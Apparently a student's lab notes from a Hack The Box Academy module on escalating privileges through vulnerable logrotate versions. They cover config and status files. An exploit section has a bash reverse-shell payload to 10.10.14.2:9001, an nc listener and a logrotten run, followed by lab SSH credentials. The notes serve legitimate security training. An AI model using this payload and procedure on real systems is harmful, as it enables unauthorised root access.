 - Archives and or deletes old logs
- Pulls logs from /var/log
- Started periodically via cron
- Controlled via the configuration file /etc/logrotate.conf
- Logs can be renamed or created for each new day, older ones are automatically renamed

```
datboyblu3@htb[/htb]$ man logrotate
datboyblu3@htb[/htb]$ # or
datboyblu3@htb[/htb]$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

### Logrotate Config File

```
datboyblu3@htb[/htb]$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

**Logrotate Status File**
This file can be used to set a new rotation either in the status file itself or using the `-f/--force` option
```
datboyblu3@htb[/htb]$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

**Application Config Files in /etc/logrotate.d**
```
datboyblu3@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

### Requirements to Exploit
- Must be writable
- Must run as privileged user or root
- Vulnerable Versions:
	- 3.8.6
	- 3.11.0
	- 3.15.0
	- 3.18.0

### Exploit Logrotate

The example is using a prefabricated exploit called [logrotten](https://github.com/whotwagner/logrotten)

**Create Payload**
```
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

**Determine which option logrotate uses in logrotate.conf**
```
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

This logrotate option will create a new, empty log after rotating old ones

**Start your listener**
```
datboyblu3@htb[/htb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

**Execute the payload with logrotten**
```
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

## Questions

### SSH
```
ssh htb-student@10.129.23.14
```

### Passwd
```
HTB_@cademy_stdnt!
```

What version of logrotate is on the box and is it vulnerable?
```
htb-student@ubuntu:~$ logrotate --version
logrotate 3.11.0
htb-student@ubuntu:~$
```
Yes it is!

What files/directories can we write to?

The `backup` directory has writable permissions
```
htb-student@ubuntu:~$ ls -l
total 4
drwxr-xr-x 2 htb-student htb-student 4096 Jun 14  2023 backups
htb-student@ubuntu:~$ cd backups/
htb-student@ubuntu:~/backups$ ls -la
total 12
drwxr-xr-x 2 htb-student htb-student 4096 Jun 14  2023 .
drwxr-xr-x 4 htb-student htb-student 4096 Mar 20 23:58 ..
-rw-r--r-- 1 htb-student htb-student    0 Jun 14  2023 access.log
-rw-r--r-- 1 htb-student htb-student   91 Jun 14  2023 access.log.1
htb-student@ubuntu:~/backups$ 

```